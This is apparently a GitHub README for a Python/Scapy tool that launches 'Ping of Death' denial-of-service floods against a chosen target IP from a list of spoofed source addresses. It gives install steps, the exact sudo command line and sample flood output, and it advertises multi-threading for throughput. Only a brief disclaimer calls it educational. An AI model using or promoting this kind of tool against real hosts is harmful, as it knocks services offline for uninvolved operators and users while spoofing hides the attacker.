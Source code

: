 # Simple DDoS with IP Spoofing by **rajexploit404**

A straightforward Python script for **Ping of Death (PoD)** attacks with IP spoofing. Built for educational and research purposes only. Misuse of this tool is strictly prohibited.

---

## **Features**
- Uses **Scapy** to send spoofed ICMP packets.
- Supports **multi-threading** and **multi-processing** for optimal performance.
- Customizable input for spoofed IP lists and target IPs.

---

## **Banner**

```plaintext
  ██████╗  █████╗      ███████╗███████╗███████╗ ██████╗
 ██╔════╝ ██╔══██╗     ██╔════╝██╔════╝██╔════╝██╔═══██╗
 ██║  ███╗███████║     ███████╗█████╗  █████╗  ██║   ██║
 ██║   ██║██╔══██║     ╚════██║██╔══╝  ██╔══╝  ██║   ██║
 ╚██████╔╝██║  ██║     ███████║███████╗██║     ╚██████╔╝
  ╚═════╝ ╚═╝  ╚═╝     ╚══════╝╚══════╝╚═╝      ╚═════╝
 
  Simple PoD with IP Spoofed by rajexploit404
```

---

## **Requirements**
1. **Python 3.8+**
2. **Scapy Library**: Install using:
   ```bash
   pip install scapy
   ```
3. Root privileges (**sudo**) are required for sending raw packets.

---

## **Usage**
Run the script with the following syntax:
```bash
sudo python3 main.py <target_ip> <spoofed_ip_list>
```

### **Parameters**
- **`<target_ip>`**: The target IP address to flood.
- **`<spoofed_ip_list>`**: File containing spoofed IP addresses, one per line.

---

## **Example**

```bash
┌──(rajexploit404㉿rajsec)-[~/POD]
└─$ sudo python3 main.py 123.123.123.123 spoof.txt
```

Output:

```plaintext
  ██████╗  █████╗      ███████╗███████╗███████╗ ██████╗
 ██╔════╝ ██╔══██╗     ██╔════╝██╔════╝██╔════╝██╔═══██╗
 ██║  ███╗███████║     ███████╗█████╗  █████╗  ██║   ██║
 ██║   ██║██╔══██║     ╚════██║██╔══╝  ██╔══╝  ██║   ██║
 ╚██████╔╝██║  ██║     ███████║███████╗██║     ╚██████╔╝
  ╚═════╝ ╚═╝  ╚═╝     ╚══════╝╚══════╝╚═╝      ╚═════╝

  Simple PoD with IP Spoofed by rajexploit404

[?] Loaded 3000 spoofed IPs from spoof.txt
[?] Starting packet flood...
[+] Packet sent from 31.147.186.29 to 123.123.123.123
[+] Packet sent from 28.160.190.195 to 123.123.123.123
[+] Packet sent from 136.91.104.67 to 123.123.123.123
[+] Packet sent from 165.98.179.114 to 123.123.123.123
[+] Packet sent from 176.40.228.221 to 123.123.123.123
[+] Packet sent from 93.161.149.146 to 123.123.123.123
```

---

## **Invalid Usage**

If the script is run without `sudo` or with insufficient arguments, the following error is displayed:

```plaintext
[!] This script must be run with sudo privileges!
Usage: sudo python3 main.py <target_ip> <spoofed_ip_list>
```

---

## **Disclaimer**
This tool is for **educational purposes only**. Use it responsibly and only with the explicit permission of the target. Misuse can result in legal consequences.
